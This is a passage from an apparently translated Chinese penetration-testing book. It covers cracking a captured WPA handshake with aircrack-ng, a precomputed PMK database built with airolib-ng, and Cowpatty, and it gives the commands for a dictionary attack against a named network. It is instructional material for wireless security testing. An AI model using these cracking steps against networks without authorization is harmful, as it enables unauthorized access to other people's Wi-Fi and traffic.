 ![使用 Aircrack-ng 破解 WPA](https://github.com/OpenDocCN/freelearn-kali-zh/raw/master/docs/kali-wrls-pentest-ess/img/B04527_05_06.jpg)

经过一段时间后，如果在使用的单词列表中找到了密钥，aircrack-ng 会在输出中返回它，以及经过的时间，测试的密钥数量和测试速度，如我们在下面的截图中所看到的：

![使用 Aircrack-ng 破解 WPA](https://github.com/OpenDocCN/freelearn-kali-zh/raw/master/docs/kali-wrls-pentest-ess/img/B04527_05_07.jpg)

如果我们想使用彩虹表进行字典攻击，我们可以使用`airolib-ng`工具创建网络 ESSIDs 的数据库和相关的预先计算的 PMKs。

为了创建我们目标网络的数据库`wpa_db`，我们运行以下命令：

```
airolib-ng wpa_db --import essid InfostradaWiFi-201198

```

然后导入我们之前使用的字典文件：

```
airolib-ng wpa_db --import passwd wparockyou.txt

```

在继续计算 PMK 之前，建议清理和优化数据库：

```
airolib-ng wpa_db --clean all

```

![使用 Aircrack-ng 破解 WPA](https://github.com/OpenDocCN/freelearn-kali-zh/raw/master/docs/kali-wrls-pentest-ess/img/B04527_05_08.jpg)

接下来，我们使用以下命令计算 PMKs：

```
airolib-ng wpa_db -batch

```

最后，我们可以在数据库上执行`aircrack-ng`：

```
aircrack-ng -r wpa_db wpa_crack-01.cap

```

## 使用 Cowpatty 破解 WPA

作为 aircrack-ng 的替代品，Cowpatty 是一种易于使用且有效的 WPA PSK 破解工具，由**Joshua Wright**开发。

它的使用方式与 aircrack-ng 非常相似，因为它接受包含四次握手和单词列表的数据包捕获，以及网络 ESSID：

```
cowpatty -f wparockyou.txt -r wpa_crack-01.cap -s InfostradaWiFi-201198

```

![使用 Cowpatty 破解 WPA](https://github.com/OpenDocCN/freelearn-kali-zh/raw/master/docs/kali-wrls-pentest-ess/img/B04527_05_09.jpg)

正如我们在下面的截图中所看到的，破解的 PSK 显示在输出中。Cowpatty 像 aircrack-ng 一样，还显示了经过的时间，测试的密码数量和速率：

